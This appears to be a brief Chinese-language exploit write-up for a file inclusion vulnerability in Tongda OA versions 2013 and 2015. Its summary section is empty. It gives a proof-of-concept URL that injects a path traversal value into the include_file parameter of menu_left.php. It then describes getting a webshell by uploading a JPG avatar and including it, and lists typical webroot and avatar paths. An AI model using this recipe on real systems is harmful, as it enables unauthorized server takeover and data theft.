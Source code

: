 通达oa 文件包含漏洞
===================

一、漏洞简介
------------

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

poc

    http://0-sec.org/inc/menu_left.php?GLOBALS[MENU_LEFT][A][module][1]=a&include_file=../inc/js/menu_left.js

通常情况下，在控制⾯板中上传⼀个jpg头像，然后利用该⻚面的⽂件包含getshell。通达OA网站的根⽬录
一般在D:\\MYOA\\webroot中,头像附件一般在D:\\MYOA\\webroot\\attachment\\avatar\\XXX.jpg

image

